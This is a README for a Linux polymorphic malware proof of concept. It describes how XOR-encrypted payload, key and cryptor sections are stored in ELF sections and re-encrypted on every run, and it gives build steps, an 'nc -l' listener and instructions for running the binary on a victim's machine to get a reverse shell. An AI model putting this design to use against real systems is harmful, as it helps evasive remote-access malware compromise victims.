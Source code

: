 # Polymorphism for Linux

This part is dedicated for linux's users, if you need a refresh of what is a polymorphic program just clic here. Or if you looking for a windows version clic here

To know what to crypt or where to find the key for instance, we used [sections (ELF)](https://fr.wikipedia.org/wiki/Executable_and_Linkable_Format), which you can see like drawers for your binary content. The key is stocked in `.PoC_Key`, the payload function in `.unix`, and a boolean to know wether we are running it for the first time or not `.unixb`. (Those sections doesn't exist, we can create/alter an already existing sections with `__attribute__((section(x)))` ([variable](http://www.keil.com/support/man/docs/armcc/armcc_chr1359124977848.htm), [function](http://www.keil.com/support/man/docs/armclang_ref/armclang_ref_chr1384876160481.htm), [`#pragma`](https://docs.microsoft.com/fr-fr/cpp/preprocessor/section?view=vs-2019)).

> *Payload :
> Component of a computer virus that runs the malicious commands.*

# How to use :

The CRYPTED_FUNC_SIZE must be the exact size of your new section ! You can use `size -d -A binaryname` to get it.

First one, you need to refer your IP and a Port to use, in `src/main.c` line 74 and 68.
For use it over internet, use your public IP and make a port forward on your local computer's IP with the associate Port.

     git clone https://github.com/PoCFrance/Whitecomet-Research.git
     cd Polymorphic
     make re
     ./PoCrypt

Now you get a binary named "**Pocrypt**" this is the malware.
On your device use `nc -l [port]` for waiting the reverse shell connexion.
Then, the binary must be executed on the victim's machine in order for it to connect.
Congratulation you're connected !

## How it works :

There are three main parts in the malware : the Payload, Key and Cryptor.
We're using binary's segments for each parts.

#### The Cryptor - Not Crypted
The first function called when launching the binary. It finds the Key and use it with the [XOR operation](https://en.wikipedia.org/wiki/XOR_cipher) in order to decrypt (on the currently running binary) the Payload segment. When it's done the Cryptor re encrypt the Payload with a new key.

#### The Key - Not Crypted
A random key regenerates at each execution of the program, used to decrypt the Payload. The key and the payload must have the same length in order to have an **One Time Pad encryption**([\*](https://en.wikipedia.org/wiki/One-time_pad)).

#### The Payload - Crypted
Basic reverse shell, the victim execute the program that then opens a server on it's machine on which you can connect and run commands.


##### The forgotten one : Saving - Not Crypted
Very basic file writing with the exception of deleting itself before doing so.


